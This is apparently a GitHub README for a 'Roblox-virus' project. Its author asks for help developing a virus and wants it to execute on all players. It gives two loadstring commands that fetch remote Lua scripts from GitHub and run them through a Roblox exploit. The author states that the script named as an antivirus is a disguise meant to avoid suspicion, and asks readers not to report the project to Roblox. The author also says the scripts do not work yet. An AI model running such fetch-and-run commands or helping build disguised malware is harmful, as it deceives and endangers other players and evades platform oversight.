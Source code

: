 Roblox-virus

Hello! , this is a roblox virus,
but is the Initial-Prelease ,
and please help me in the virus developing

How to use?
Copy in your exploit the loadstring :
loadstring(game:HttpGet(('https://raw.githubusercontent.com/ELJOKER900/Roblox-END-RoJack-/main/BloxyAntiVirus-PRO.lua'), game.ReplicatedFirst)
and
loadstring(game:HttpGet(('https://raw.githubusercontent.com/ELJOKER900/Roblox-END/main/AntiFLY.Lua'), game.ReplicatedFirst)

(WARNING, SCRIPTS DOES NOT WORKS BECAUSE IM SEARCHING THE BEST SCRIPT INIT , PLEASE WAIT)
(and the "AntiVirus" not is an antivirus , It is the mask of the virus, which makes no one with the Dex editor suspicious)
(And i need help to make that script executes on all players  )

AND PLEASE DO NOT FEEDBACK THIS TO ROBLOX OR I WOULD BE BREACHING MY AGREEMENT
